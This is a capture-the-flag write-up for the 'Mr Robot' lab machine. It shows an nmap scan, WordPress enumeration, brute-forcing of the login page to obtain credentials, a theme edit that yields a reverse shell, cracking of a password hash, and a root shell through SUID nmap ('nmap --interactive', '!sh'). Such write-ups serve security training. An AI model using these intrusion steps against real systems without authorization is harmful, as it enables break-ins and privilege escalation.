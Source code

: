 # Nmap
```bash
# Nmap 7.94SVN scan initiated Tue Nov 26 11:47:37 2024 as: /usr/lib/nmap/nmap --privileged -p- --open -oG scans/all-scan -v 10.10.249.72
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.249.72 ()	Status: Up
Host: 10.10.249.72 ()	Ports: 80/open/tcp//http///, 443/open/tcp//https///
# Nmap done at Tue Nov 26 11:49:32 2024 -- 1 IP address (1 host up) scanned in 114.87 seconds
```

# Foothold
Wpscan: `wpscan --url [http://10.10.249.72/](http://10.10.249.72/) --api-token XXX`
- WordPress 4.3.1 ([http://10.10.249.72/ac4ff5e.html](http://10.10.249.72/ac4ff5e.html) - source code says WordPress 4.3.1)

Wordlist: [http://10.10.249.72/fsocity.dic](http://10.10.249.72/fsocity.dic) - The list has a lot of duplicate values, remove them
- Fuzzing with this list we found:
    - [http://10.10.249.72/license](http://10.10.249.72/license) (just a message: what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?)
    - [http://10.10.249.72/readme](http://10.10.249.72/readme) (just a message: I like where you head is at. However I'm not going to help you.)
- Fuzzing wp-login.php page we found user `elliot` and password `ER28-0652`
    - First we brute force the user parameter and filter the request for “Invalid username” text, then we brute force passwords and filter the request for “is incorrect” text
- With valid credentials access as elliot, modify theme introducing php code and execute it to get a reverse shell as daemon.

# Lateral movement
In robot home folder we find the password hash, introducing it in [https://crackstation.net/](https://crackstation.net/) we get password `abcdefghijklmnopqrstuvwxyz`

# Privilege escalation
With linpeas we found that nmap has SUID bit set:
	`-rwsr-xr-x 1 root root 493K Nov 13 2015 /usr/local/bin/nmap`

In [https://gtfobins.github.io/gtfobins/nmap/#sudo](https://gtfobins.github.io/gtfobins/nmap/#sudo) we find that we can spawn a shell with nmap:
	`nmap --interactive`
	`!whoami`
	`!sh`